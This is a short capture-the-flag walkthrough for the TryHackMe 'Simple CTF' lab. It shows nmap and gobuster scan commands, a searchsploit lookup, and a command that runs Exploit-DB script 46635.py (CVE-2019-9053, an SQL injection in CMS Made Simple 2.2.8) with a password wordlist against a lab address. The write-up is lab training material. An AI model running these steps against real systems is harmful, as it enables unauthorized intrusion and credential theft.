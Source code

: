 # [Simple CTF](https://tryhackme.com/room/easyctf)

> Beginner level ctf

## Scanning

We will start a nmap scan

```
nmap -A -T4 10.10.232.89
```

![image](https://user-images.githubusercontent.com/90561566/182623084-843a068a-daf3-4eed-8107-583b7fa3ed8b.png)

We found 2 services running below port 1000, namely FTP (21) and HTTP (80)

We can see that ssh is running on the higher port (2222)

## Enumeration

I just view the default web page and see nothing, so let's use gobuster to find something

```
gobuster dir -u http://10.10.232.89/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/182626562-6e7b1b36-e22b-4756-8c83-979d6b05fb34.png)

let's see /robots.txt file

![image](https://user-images.githubusercontent.com/90561566/182626985-f3fcb05b-ba8f-42f4-955c-bb6f12c5c6dc.png)

and /simple page

![image](https://user-images.githubusercontent.com/90561566/182627264-f181bf7b-db22-462e-8875-e866f6b34307.png)

at the end of page, i see its version

![image](https://user-images.githubusercontent.com/90561566/182627984-c7973e00-78cb-4207-beb5-1a7b89543498.png)

```
searchsploit cms made simple 2.2.8
```

![image](https://user-images.githubusercontent.com/90561566/182628708-3a49d796-a2cb-43a8-8f2f-30d0483c055e.png)

We can download the exploit using `searchsploit -m 46635.py`

![image](https://user-images.githubusercontent.com/90561566/182629731-a154a783-6f13-4761-9728-05ca4113bc12.png)

The CVE is CVE-2019-9053 and vulnerability type is SQLi

## Exploitation

On the script, i see some python library to install with pip and 3 parameters to use

![image](https://user-images.githubusercontent.com/90561566/182630976-ebbdf050-d62c-4aeb-8365-8d75ffe25159.png)

```
python 46635.py -u http://10.10.232.89/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

